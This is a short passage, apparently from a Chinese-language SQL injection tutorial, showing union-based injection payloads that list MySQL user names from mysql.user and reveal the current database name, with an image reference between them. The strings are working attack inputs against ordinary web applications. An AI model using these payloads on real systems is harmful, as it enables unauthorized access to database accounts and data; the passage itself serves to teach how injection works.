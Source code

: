 ```
' or 1=1 union select null,User from mysql.user #
```

![show-all-mysql-user](../imgs/wm_140.png)

类似的用户信息获取扩展我们不再意义列举了。

我们还可以查看到当前使用的数据库名称：

```
' or 1=1 union select null,database() #
```
